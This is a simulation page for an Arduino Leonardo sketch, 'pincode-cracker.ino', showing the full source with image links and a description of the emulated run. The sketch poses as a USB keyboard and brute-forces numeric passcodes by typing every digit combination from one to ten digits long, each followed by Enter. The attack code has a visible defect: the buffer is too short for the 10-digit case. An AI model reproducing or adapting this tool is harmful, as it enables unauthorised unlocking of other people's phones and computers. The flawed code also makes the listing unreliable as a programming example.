
Simulated run of this sketch. Board: Arduino Leonardo, built with avr-gcc and run on an emulated ATmega32U4. On the bench: output pins drawn as LEDs (lit = HIGH). USB keyboard and mouse output is not drawn.

Above: at 0.1 s.
At 3.1 s:

Timing chart, 0 to 4.6 s (numbered marks = the images above):


The sketch:

pincode-cracker.ino
```cpp
#include "Keyboard.h"
#include "Mouse.h"

// Used the following examples:
// https://docs.arduino.cc/built-in-examples/usb/KeyboardMessage/
// https://docs.arduino.cc/built-in-examples/usb/KeyboardAndMouseControl/
// https://docs.arduino.cc/built-in-examples/basics/Blink/


void setup() {
  // put your setup code here, to run once:
  Keyboard.begin();
  Mouse.begin();
  pinMode(LED_BUILTIN, OUTPUT);

  // signal that loop is about to start
  digitalWrite(LED_BUILTIN, HIGH);
  delay(1000);
  digitalWrite(LED_BUILTIN, LOW);
  delay(1000);
  digitalWrite(LED_BUILTIN, HIGH);
  delay(1000);
  digitalWrite(LED_BUILTIN, LOW);
  delay(1000);
}

void attempt_passcode(char* passcode) {
  Keyboard.println(passcode);
  // Mouse.click();
}

void attempt_passcodes(char* passcode, int index, int length) {
  if (index >= length) {
    attempt_passcode(passcode);
  } else {
    for (int i = 0; i < 10; ++i) {
      passcode[index] = '0' + i;
      attempt_passcodes(passcode, index + 1, length);
    }
  }
}

void loop() {
  int max_length = 10;
  char passcode[max_length] = "";

  for (int i = 0; i < max_length; ++i) {
    attempt_passcodes(passcode, 0, i + 1);
  }
}
```
